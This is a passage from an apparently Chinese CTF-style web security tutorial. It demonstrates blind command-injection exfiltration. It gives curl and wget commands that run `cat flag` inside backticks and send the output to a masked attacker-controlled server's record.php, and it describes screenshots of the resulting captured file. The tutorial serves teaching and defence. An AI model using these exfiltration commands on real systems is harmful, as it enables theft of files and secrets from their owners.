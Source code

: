 2、第二步我们开始构造请求

```text
  curl http://*.*.*.**/record.php?data=`cat flag`
  wget http://*.*.*.*/record.php?data=`cat flag`
```

**测试**

**这里是上帝视角（为了师傅们更直观理解）**

首先看目标网站上的文件

![img](PictureFile/【Web】TOP漏洞.assets/v2-49b00714ae15673487e16b6b8f4c2c2f_720w.webp)

接下来看自己服务器上的文件

![img](PictureFile/【Web】TOP漏洞.assets/v2-baab02f5159dda6e65d60e1f39297efc_720w.webp)

我们在目标站点执行如下命令

![img](PictureFile/【Web】TOP漏洞.assets/v2-b400eb43fbb4f49b43bef861efcf4eff_720w.webp)

这样我们在自己的服务器上就会产生一个flag.txt文件,然后进行查看

![img](PictureFile/【Web】TOP漏洞.assets/v2-ee53b77df721a1b6e7f9c98169cea36e_720w.webp)
